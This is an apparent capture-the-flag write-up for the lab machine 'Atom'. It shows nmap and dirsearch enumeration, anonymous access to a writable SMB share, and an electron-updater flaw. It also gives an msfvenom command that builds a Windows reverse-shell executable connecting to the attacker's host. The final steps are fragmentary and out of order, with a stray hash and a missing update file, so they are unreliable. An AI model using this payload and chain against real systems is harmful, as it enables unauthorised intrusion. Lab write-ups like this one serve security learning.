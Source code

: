 
![Image Atom]()


## ------------->> Atom <<--------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.237 -p-
-------

    Nmap scan report for 10.10.10.237
    Host is up (0.17s latency).
    Not shown: 65529 filtered tcp ports (no-response)
    PORT     STATE SERVICE    VERSION
    80/tcp   open  http       Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
    |_http-title: Heed Solutions
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    135/tcp  open  msrpc      Microsoft Windows RPC
    443/tcp  open  ssl/http   Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-title: Heed Solutions
    | ssl-cert: Subject: commonName=localhost
    | Not valid before: 2009-11-10T23:48:47
    |_Not valid after:  2019-11-08T23:48:47
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_ssl-date: TLS randomness does not represent time
    | tls-alpn: 
    |_  http/1.1
    5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-title: Not Found
    |_http-server-header: Microsoft-HTTPAPI/2.0
    6379/tcp open  redis      Redis key-value store
    7680/tcp open  tcpwrapped
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

// Navigating to http://10.10.10.237/ present us with software product website

![Image 1]()

// Lets search for interesting directories or files with [dirsearch]()(By ).

    $ python3 dirsearch.py -u http://10.10.10.237/ -t 100
-------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 10903

    Target: http://10.10.10.237/

    ...
    [17:04:35] 403 -  302B  - /Trace.axd::$DATA
    [17:04:41] 403 -  302B  - /cgi-bin/
    [17:04:41] 500 -  636B  - /cgi-bin/printenv.pl
    [17:04:45] 301 -  338B  - /images  ->  http://10.10.10.237/images/
    [17:04:45] 200 -  984B  - /images/
    [17:04:45] 200 -    7KB - /index.html
    [17:04:46] 503 -  402B  - /examples/servlets/servlet/CookieExample
    [17:04:46] 503 -  402B  - /examples/servlets/index.html
    [17:04:46] 503 -  402B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/
    [17:04:46] 503 -  402B  - /examples/jsp/snp/snoop.jsp
    [17:04:46] 503 -  402B  - /examples
    [17:04:46] 503 -  402B  - /examples/servlets/servlet/RequestHeaderExample
    [17:04:46] 503 -  402B  - /examples/
    [17:04:46] 503 -  402B  - /examples/servlet/SnoopServlet
    [17:04:48] 403 -  302B  - /phpmyadmin/docs/html/index.html
    [17:04:48] 403 -  302B  - /phpmyadmin/ChangeLog
    [17:04:48] 403 -  302B  - /phpmyadmin/doc/html/index.html
    [17:04:48] 403 -  302B  - /phpmyadmin/README
    [17:04:48] 403 -  302B  - /phpmyadmin
    [17:04:48] 403 -  302B  - /phpmyadmin/index.php
    [17:04:49] 403 -  302B  - /phpmyadmin/phpmyadmin/index.php
    [17:04:49] 403 -  302B  - /phpmyadmin/
    [17:04:49] 403 -  302B  - /phpmyadmin/scripts/setup.php
    [17:04:50] 301 -  340B  - /releases  ->  http://10.10.10.237/releases/
    [17:04:50] 403 -  421B  - /server-status/
    [17:04:50] 403 -  421B  - /server-status
    [17:04:50] 403 -  421B  - /server-info
    [17:04:53] 403 -  302B  - /web.config::$DATA
    [17:04:53] 403 -  302B  - /webalizer

    Task Completed

// Nothing helping there... Move on!

// Earlier with nmap we see there SMB service open

// Lets check if it allows anonymous connection with smbmap

    $ smbmap -u anonymous -H 10.10.10.237
------
    
    [+] Guest session   	IP: 10.10.10.237:445	Name: 10.10.10.237                                      
            Disk                                                  	Permissions	Comment
      ----                                                  	-----------	-------
      ADMIN$                                            	NO ACCESS	Remote Admin
      C$                                                	NO ACCESS	Default share
      IPC$                                              	READ ONLY	Remote IPC
      Software_Updates                                  	READ, WRITE	

// It worked !, We can see that we have permission(READ, WRITE) only in directory Software_Updates

// Lets check it out

    $ smbmap -u anonymous -r Software_Updates -H 10.10.10.237
------

    [+] Guest session   	IP: 10.10.10.237:445	Name: 10.10.10.237                                      
            Disk                                                  	Permissions	Comment
      ----                                                  	-----------	-------
      Software_Updates                                  	READ, WRITE	
      .\Software_Updates\*
      dr--r--r--                0 Fri Sep 10 18:53:53 2021	.
      dr--r--r--                0 Fri Sep 10 18:53:53 2021	..
      dr--r--r--                0 Fri Sep 10 18:49:49 2021	client1
      dr--r--r--                0 Fri Sep 10 18:49:49 2021	client2
      dr--r--r--                0 Fri Sep 10 18:49:49 2021	client3
      fr--r--r--            35202 Fri Apr  9 07:18:08 2021	UAT_Testing_Procedures.pdf

// after checking, client1,2,3 are empty so i downloaded 'UAT_Testing_Procedures.pdf' to see his content

    $ smbmap -u anonymous --download 'Software_Updates\UAT_Testing_Procedures.pdf' -H 10.10.10.237

![Image 2]()

// We can see that the pdf mantion electron-builder and that should be update-server

// After some digging [Electron builder](https://github.com/electron-userland/electron-builder) is:

    A complete solution to package and build a ready for distribution Electron, Proton Native app for macOS,
    Windows and Linux with “auto update” support out of the box.

// Digging some more found a vulnerability at electron-updater [here](https://snyk.io/test/npm/electron-updater/1.4.0)

![Image 3]()

// So lets try this, first we need to make .exe reverse shell, we will use msfvenom for that

    $ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.6 LPORT=1444 -f exe > rev\'shell.exe
------

    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder specified, outputting raw payload
    Payload size: 324 bytes
    Final size of exe file: 73802 bytes

// Now we can make our 'latest.yml' file




$smbclient \\\\10.10.10.237\\Software_Updates -U anonymous

f486053b0ed2b8e4d46b3c056b9f8dcdb9bb5d7f7f51ed03ae2a90d307e3fcdb2da28233e27527637fe8ab1c85e1c81f2894c92953894a2f94262d557da62b65

// The website offer us to download an .exe that demonstrate their notes software

